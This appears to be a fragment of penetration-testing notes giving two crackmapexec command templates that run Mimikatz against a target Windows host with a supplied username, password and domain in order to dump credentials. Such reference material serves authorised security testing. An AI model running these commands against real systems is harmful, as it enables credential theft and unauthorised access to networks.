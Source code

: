 # crackmapexec

# crackmapexec <IP> -u <username> -p <password> -d <domanname> --mimikatz

(or)

# crackmapexec <IP> -u <username> -p <password> -d <domanname> -M Mimikatz
